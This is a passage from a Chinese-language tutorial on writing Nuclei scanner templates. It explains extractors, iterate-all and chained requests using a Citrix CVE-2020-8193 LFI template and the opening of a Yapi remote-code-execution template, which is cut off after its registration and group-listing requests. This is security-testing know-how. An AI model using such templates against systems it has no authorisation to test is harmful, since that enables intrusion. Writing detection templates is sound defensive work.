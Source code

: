 **参考代码**
```
id: CVE-2020-8193

info:
  name: Citrix unauthenticated LFI
  author: pdteam
  severity: high
  reference: https://github.com/jas502n/CVE-2020-8193

requests:
  - path:
      - https://example.com
      - https://example.com/{{URLPath}}

    iterate-all: true
    extractors:
      - type: regex
        part: body
        name: URLPath
        group: 1
        regex:
          - 'href="(.*)"'
        internal: true 
```
<a name="y0b9Z"></a>
## 1.3 多个payload连续请求，将匹配内容作为后续发送payload的数据
**关键点说明**<br />**1、使用关键值：**iterate-all: true说明要使用所有、匹配到的数据<br />2、使用提取器（extractors），对body基于正则表达式，使用匹配中的1（0表示匹配到的所有，1表示第一个圆括号中匹配的内容）<br />3、分别命名group_id、interface_id、interface_id，并在后续若干个payload中进行使用（替换）<br />4、标记要做后续payload的替换internal: true<br />5、matchers-condition: and表示matchers中多个条件必须满足<br />6、本案例中randstr、randstr_1表示自动填充随机字符串，其中“randstr_1”为第二个，或者多个请求构造不同的随机字符，可在matchers时进行区分

**参考代码**
```
id: yapi-rce

info:
  name: Yapi Remote Code Execution
  author: pikpikcu
  severity: critical
  tags: yapi,rce
  description: A vulnerability in Yapi allows remote unauthenticated attackers to cause the product to execute arbitrary code.
  reference:
    - https://www.secpulse.com/archives/162502.html
    - https://gist.github.com/pikpikcu/0145fb71203c8a3ad5c67b8aab47165b
    - https://twitter.com/sec715/status/1415484190561161216
    - https://github.com/YMFE/yapi

requests:
  - raw:
      - | # REQUEST 1
        POST /api/user/reg HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/json;charset=UTF-8

        {"email":"{{randstr}}@example.com","password":"{{randstr}}","username":"{{randstr}}"}

      - | # REQUEST 2
        GET /api/group/list HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/json, text/plain, */*

```